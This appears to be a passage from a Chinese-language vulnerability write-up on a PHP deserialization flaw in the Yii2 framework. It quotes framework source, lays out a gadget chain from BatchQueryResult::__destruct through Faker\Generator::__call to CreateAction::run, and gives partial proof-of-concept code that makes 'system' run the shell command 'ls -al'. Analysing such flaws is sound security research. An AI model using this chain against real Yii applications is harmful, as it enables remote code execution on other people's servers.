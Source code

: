             /* @var $model \yii\db\ActiveRecord */
            $model = new $this->modelClass([
                'scenario' => $this->scenario,
            ]);

            $model->load(Yii::$app->getRequest()->getBodyParams(), '');
            if ($model->save()) {
                $response = Yii::$app->getResponse();
                $response->setStatusCode(201);
                $id = implode(',', array_values($model->getPrimaryKey(true)));
                $response->getHeaders()->set('Location', Url::toRoute([$this->viewAction, 'id' => $id], true));
            } elseif (!$model->hasErrors()) {
                throw new ServerErrorHttpException('Failed to create the object for unknown reason.');
            }

            return $model;
        }
        /** 
        ......
        */
    }
    ?>

`$this->checkAccess`和`$this->id`都是我们可控的。所以整个利用链就出来了。

    yii\db\BatchQueryResult::__destruct()
    ->
    Faker\Generator::__call()
    ->
    yii\rest\CreateAction::run()

还是挺简单的一个漏洞

### poc

    namespace yii\rest{
        class CreateAction{
            public $checkAccess;
            public $id;

            public function __construct(){
                $this->checkAccess = 'system';
                $this->id = 'ls -al';
            }
        }
    }

    namespace Faker{
        use yii\rest\CreateAction;

        class Generator{
            protected $formatters;

            public function __construct(){
                $this->formatters['close'] = [new CreateAction, 'run'];
            }
        }
    }
